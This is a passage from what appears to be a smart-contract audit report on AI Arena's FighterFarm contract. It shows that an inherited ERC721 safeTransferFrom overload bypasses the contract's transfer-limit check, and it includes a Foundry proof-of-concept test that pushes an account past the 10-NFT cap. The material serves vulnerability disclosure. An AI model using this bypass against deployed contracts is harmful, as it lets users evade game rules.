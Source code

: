 ERC721 safeTransferFrom() function with `bytes memory data` parameter:
```solidity
File: ERC721.sol
175:     function safeTransferFrom(
176:         address from,
177:         address to,
178:         uint256 tokenId,
179:         bytes memory data
180:     ) public virtual override {
181:         require(_isApprovedOrOwner(_msgSender(), tokenId), "ERC721: caller is not token owner nor approved");
182:         _safeTransfer(from, to, tokenId, data);
183:     }
```

As we can see above, both functions have different function signatures. Since the FighterFarm contract inherits ERC721, it also inherits the safeTransferFrom() public function with the bytes parameter, that does not have the [_ableToTransfer()](https://github.com/code-423n4/2024-02-ai-arena/blob/cd1a0e6d1b40168657d1aaee8223dc050e15f8cc/src/FighterFarm.sol#L539) function check.

### Coded POC

How to use this POC:
- Add the POC to FighterFarm.t.sol file in the `test` folder.
- Run the POC using `forge test --match-test testSafeTransferFromIssue -vvv`
- The test demonstrates how alice transfers NFTs from her temporary account A to her main account B, which can hold a balance greater than 10.

```solidity
File: FighterFarm.t.sol
573:     address public accountA = makeAddr("Alice's temporary account");
574:     address public accountB = makeAddr("Alice's main account");
575:
576:     function testSafeTransferFromIssue() public {
577:         // Suppose both account A and B are owner by alice
578:         // Account A = address(this) i.e. alice's temporary account
579:         // Account B = alice's main gaming account
580:
581:         // 1) Mint 10 NFTs to account A
582:         for (uint256 i; i < 10; i++) {
583:             vm.prank(address(_mergingPoolContract));
584:             _fighterFarmContract.mintFromMergingPool(accountA, "_neuralNetHash", "original", [uint256(1), uint256(80)]);
585:         }
586:
587:         // 2) Alice transfers the 10 NFTs from her account A to B
588:         for (uint256 i; i < 10; i++) {
589:             vm.prank(accountA);
590:             _fighterFarmContract.safeTransferFrom(accountA, accountB, i);
591:         }
592:
593:         // 3) Mint one more NFT to account A
594:         vm.prank(address(_mergingPoolContract));
595:         _fighterFarmContract.mintFromMergingPool(accountA, "_neuralNetHash", "original", [uint256(1), uint256(80)]);
596:
597:         // 4) Alice transfers 1 NFT (tokenId 10) from her account A to B. Note that alice should not allowed to do this since accountB already has 10 NFTs i.e. the maximum allowed fighters. But since alice uses the other safeTransferFrom() function, the transfer suceeds and account B now holds 11 NFTs
598:         vm.prank(accountA);
599:         _fighterFarmContract.safeTransferFrom(accountA, accountB, 10, "");
600:
601:         assertEq(_fighterFarmContract.balanceOf(accountB), 11);
```